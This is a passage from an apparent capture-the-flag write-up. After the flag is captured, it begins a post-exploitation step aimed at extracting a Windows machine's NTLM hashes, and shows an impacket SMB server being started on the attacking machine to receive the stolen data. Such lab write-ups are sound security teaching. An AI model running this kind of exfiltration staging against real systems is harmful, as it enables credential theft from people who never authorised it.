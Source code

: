 ![](assets/rdp1.png)

Our user `desperado` has admin privileges, that's nice.

Let's capture that flag:

![](assets/FLAG67.png)

And with that the machine is done, right?

# [](#header-1)A little bit of post-exploitation.

Let's extract the NTLM hashes of the machine.

First we set up a SMB server in our attacking machine using `impacket`:

```bash
└─# sudo impacket-smbserver tool . -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
